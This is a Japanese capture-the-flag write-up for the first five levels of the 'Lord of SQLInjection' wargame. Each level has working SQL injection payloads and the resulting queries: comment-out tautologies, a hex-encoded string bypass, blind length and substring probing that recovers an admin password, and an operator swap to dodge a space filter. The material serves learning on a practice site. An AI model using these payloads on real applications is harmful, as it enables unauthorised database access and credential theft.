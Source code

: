 # Lord of SQLInjection writeup 01-05
## 01 - gremlin
GETパラメータ`id`と`pw`を特に無害化などしていないことが分かる。  
何か結果が返ればよいので、or文で条件を崩し、後方をコメントアウトする。

### 解答例
```
?id=1' or '1'='1'%23
```
> query : select id from prob_gremlin where id='1' or '1'='1'#' and pw=''

`%23`は`#`をURLエンコードしたもの。  
`#`のままブラウザでアクセスすると、URLフラグメントの扱いになるため。

### 別解
```
?id=1' or '1'='1'-- hoge
```
> query : select id from prob_gremlin where id='1' or '1'='1'-- hoge' and pw=''

MySQLの場合、`--`ではなく`-- `でコメントアウト。  
URL末尾のスペースはそのままだと無視されるので、` hoge`を入れてみた。

## 02 - cobolt

SQLの結果から、`id`が`admin`か確認しているので、その通り指定する。  
パスワードは分からないので前の問題同様、コメントアウトする。  

### 解答例
```
?id=admin'%23
```
> query : select id from prob_cobolt where id='admin'#' and pw=md5('')

## 03 - goblin
SQLの結果から、`id`が`admin`か確認しているが、既に`id='guest'`がベタ書きされている。  
また、クォーテーションを含むとエラーにされるので、`id='admin'`と書き足せない。  
文字列を条件にする場合、`'admin'`のようにせず、Hexで表すことができるので、試してみる。

```shell
$ echo -n admin | xxd
00000000: 6164 6d69 6e                             admin
```

### 解答例
```
?no=0 or id=0x61646d696e
```
> query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e

### 別解
想定解ではなさそうだが、これでも正解になった。  
`admin`の方が`guest`より前に来て、かつ、`admin`よりも前に来るデータがないと思われる。  
```
?no=0 or 1=1 order by 1
```
> query : select id from prob_goblin where id='guest' and no=0 or 1=1 order by 1

## 04 - orc
`admin`のデータが取れれば取り合えずHello adminと表示してくれるが、  
実際のパスワードとGETパラメータの`pw`が一致していないとクリアできない。  
まずは`admin`の`pw`が何文字かを当てる。  

```
?pw=' or id='admin' and length(pw)=1%23
?pw=' or id='admin' and length(pw)=2%23
:
?pw=' or id='admin' and length(pw)=8%23
```
> query : select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8#'

Hello adminと表示されることでパスワードは8文字であることが分かる。  
1文字目は何か、2文字目は何か…ひたすら試行する。
```
?pw=' or id='admin' and substr(pw,1,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=1%23
:
```

### 解答例
```
?pw=095a9852
```
> query : select id from prob_orc where id='admin' and pw='095a9852'

## 05 - prob_wolfman 
半角スペースが禁止されているので`or id='admin`のように書き足せない。  
MySQLだと`and`は`&&`、`or`は`||`でも書くことができる。  

### 解答例
```
?pw='||id='admin
```
> query : select id from prob_wolfman where id='guest' and pw=''||id='admin'
